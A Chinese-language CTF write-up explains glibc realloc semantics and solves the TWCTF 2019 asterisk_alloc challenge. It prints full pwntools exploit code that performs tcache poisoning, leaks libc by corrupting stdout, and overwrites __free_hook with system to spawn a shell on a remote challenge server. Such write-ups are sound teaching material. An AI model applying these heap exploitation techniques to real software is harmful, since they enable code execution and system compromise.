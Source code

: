 # 多功能的`realloc`

> realloc(ptr,size)函数
>
> 当size不合法，比如-1时，realloc函数就会返回NULL。
>
> 当size为0且ptr存在时，就会执行free(ptr)且返回NULL
>
> 当size正常且ptr不存在时，就会执行malloc(ptr)
>
> 当size正常且ptr存在时，这就涉及到了两种情况，
>
> 第一种是size大于了ptr指向堆块的size，这种情况先判断ptr指向的堆块能否与top chunk或者位于高地址且free状态的堆块合并，如果合并后二者大小满足size则进行合并。如果不能合并的话再去申请一块新的内存，将原来的数据拷贝过来，再释放之前的堆块。
>
> 第二种是size小于了ptr指向堆块的size，这种情况会留下size大小的堆块，将剩余部分的堆块给释放掉。



# 例题

## TWCTF_online_2019_asterisk_alloc

https://buuoj.cn/challenges#TWCTF_online_2019_asterisk_alloc

![image-20240809210653876](./realloc/images/image-20240809210653876.png)



注意这8次free的最后一次要用realloc来free，因为我们要把ptr置空。

这部分对应代码：

```python
add_r(0x100,'aaaaaaaaa')
add_r(0x40,'bbbb')
add_r(0,'')
add_r(0x20,'prevent chunk')
add_r(0,'')
add_r(0xb0,'a')
for i in range(7):
        free('r')
    
add_r(0,'')
debug()
add_r(0x40,'sss')
pause()
    
add_r(0x100,p64(0)*9+p64(0xc1)+b'\x60\xc7')
pause()
```

add_r(0)后的add_r(0x40)是为了将ptr置为0x50这个chunk处。

![image-20240809210833848](./realloc/images/image-20240809210833848.png)

然后再realloc(0x100)，就能把下面的0xC1也给申请到了。

然后覆盖fd即可。

![image-20240809211159720](./realloc/images/image-20240809211159720.png)



后面就是常规的tcache dup 然后 tcache posioning。

注意点在：要用realloc实现malloc时，**要先realloc(-1)将ptr置空**，下一步realloc才能达到malloc的目的。

后面就是简单的修改stdout的flags字段为**0xfbad1887**，后面三个read为0，write的低字节为00即可泄露libc。

只是本地ubuntu18的没有调试符号。。。

泄露libc后就是打tcache的double free改free_hook为system，free(b'/bin/sh\x00')即可。

由于本地没符号，贴个ZIKH师傅的完整EXP:

```python
def pwn():
    add_r(0x100,'aaaaaaaaa')
    add_r(0x40,'bbbb')
    add_r(0,'')
    add_r(0x20,'prevent chunk')
    add_r(0,'')
    

    
    add_r(0xb0,'a')
    

    for i in range(7):
        delete('r')
    
    add_r(0,'')
    add_r(0x40,'sss')
    
    
    add_r(0x100,p64(0)*9+p64(0xc1)+b'\x60\xc7')
    add_r(0,'')
    #debug(p,'pie',0xDD0,0xDD7,0xdde,0xde5)
    add_r(0xb0,'a')
    add_m(0xb0,p64(0xfbad1887)+p64(0)*3+b'\x00')
    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    libc_base=leak_libc-0x3ed8b0
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']
    info_addr('libc_base',libc_base)
    add_r(0,'')
    
    add_r(0x30,'a')
    delete('r')
    add_r(0,'')
    add_r(0x30,p64(free_hook))
    add_r(-1,'')
    add_r(0x30,p64(0xdeadbeef))
    add_r(-1,'')
    add_r(0x30,p64(sys_addr))
    add_c(0x10,'/bin/sh\x00')
    delete('c')
    pause()
    p.interactive()
    
#pwn()

while 1:
    try:
        p=remote('node5.buuoj.cn',28083)
        pwn()
    except:
        p.close()
```

